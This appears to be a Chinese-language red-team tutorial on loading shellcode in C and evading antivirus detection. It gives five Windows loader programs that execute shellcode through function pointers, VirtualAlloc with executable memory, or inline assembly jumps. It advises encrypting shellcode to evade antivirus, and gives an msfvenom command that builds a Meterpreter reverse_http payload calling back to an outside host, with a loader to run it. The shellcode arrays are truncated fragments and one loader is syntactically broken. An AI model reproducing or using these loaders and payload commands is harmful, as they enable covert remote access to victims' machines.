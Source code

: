 # 0x00 C加载shellcode

c语言加载shellcode非常方便，C/C++好用是好用就是头有点凉快。以下加载方法均来自网络



第一种


```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

void main()
{
	((void(*)(void))&shellcode)();
}

```


第二种


```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

void main()
{
	    PVOID p = NULL;

               if((p = VirtualAlloc(NULL,sizeof(shellcode),MEM_COMMIT|MEM_RESERVE,PAGE_EXECUTE_READWRITE)) == NULL)

                               MessageBox(NULL,"VirtuallAlloc Failed!!!","Prompt",MB_OK);

               if(!(memcpy(p,shellcode,sizeof(shellcode))))

                               MessageBox(NULL,"WriteMemory Failed!!!","Prompt",MB_OK);

               CODE code = (CODE)p;  

               code();  
}
```


第三种


```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

void main()
{
               __asm

               {  

                               lea eax,shellcode;  

                               jmp eax;  

               }  
}


```


第四种


```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

void main()
{
	  __asm  

               {  

                               mov eax,offset shellcode;  

                               jmp eax;

               }  
}

```


第五种


```
#include <windows.h>
#include <stdio.h>
#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

void main()
{
	               __asm

               {

                               mov eax,offset shellcode;

                               _emit 0xFF;

                               _emit 0xE0;

               } 
}

```

这都是基本加载方法基本已经不过了但是还是提一下, AV 检测中 shellcode 是可以载入内存的,但是不能去执行,执行就会判断为恶意程序也就是我们可以把
它分成2个部分。

1. shellcode 特征

2. 执行shellcode

简单的举个例子

```
#include <windows.h>
#include <stdio.h>

unsigned char shellcode[] =
"\xfc\xe8\x89\x00\x00\x00\x60\x89\xe5\x31\xd2\x64\x8b\x52\x30\x8b"
"\x52\x0c\x8b\x52\x14\x8b\x72\x28\x0f\xb7\x4a\x26\x31\xff\x31\xc0"
"\xac\x3c\x61\x7c\x02\x2c\x20\xc1\xcf\x0d\x01\xc7\xe2\xf0\x52\x57";

unsigned char noshellcode[] = "";

void main()
{
  ((void(*)(void))&noshellcode)();
}


```

这个程序它不会判断为恶意程序,因为我们根本没去执行它,如何免杀呢,我们可以把shellcode加密,然后再解密运行,或者用其他方式来调用它。



![Cobalt Strike ](./img/2.2.2.png)


# 0x01 配合msf shellcode

MSF框架自带了很多加密方式，在msf5中又添加了更多的加密方式，有兴趣的朋友可以试试，我们知道msf的通讯和cs的通讯协议相通的，所以我们用msf生成shellcode来执行

```
msfvenom -p windows/meterpreter/reverse_http -a x86 --platform win LHOST=192.168.130.130 LPORT=8090 -e x86/shikata_ga_nai -i 20 -b '\x00\' -f c >/root/shellcode.c
```

生成我们的shellcode 这里我用的vs 2013 

```
#include "windows.h"  
#include "stdio.h"  

//#pragma comment(linker,"/subsystem:\"windows\" /entry:\"mainCRTStartup\"")//不显示窗口  
//#pragma comment(linker,"/MERGE:.rdata=.text /MERGE:.data=.text /SECTION:.text,EWR")//减小编译体积  
//shellcode在生成payload时选择c即可  

unsigned char shellcode[] =
"\xdb\xdf\xd9\x74\x24\xf4\xba\x82\x82\xc5\x6d\x5d\x31\xc9\xb1"
"\xf3\x83\xed\xfc\x31\x55\x16\x03\x55\x16\xe2\x77\x59\x1c\xb4"
"\x03\x7a\x6b\x1a\x51\x0c\x39\x76\x49\x22\xf7\xc8\x7c\x74\x52"
"\x3c\xfd\x9a\xa0\x41\xda\xdc\x68\x5f\x85\x72\x3c\x1a\x85\xdd"
"\x30\xf5\x5b\xad\xc3\xc8\xac\x6a\xea\x17\x5e\xca\x27\xcf\x3a"

void main()
{
	LPVOID Memory = VirtualAlloc(NULL, sizeof(shellcode), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(Memory, shellcode, sizeof(shellcode));
	((void(*)())Memory)();
}
```

其实就是个免杀msf shellcode 只是引用一个思路，为什么要讲这个呢，这就是利用编码器编码shellcode来免杀，但是这些特征已被入库。


![Cobalt Strike ](./img/2.2.1.png)


# 0x02 文末

自己写把CS的shellcode 拿来加密下 在运行也是可行的，但是都是表面免杀，主动还是有问题 。

### 本文如有错误，请及时提醒，以免误导他人
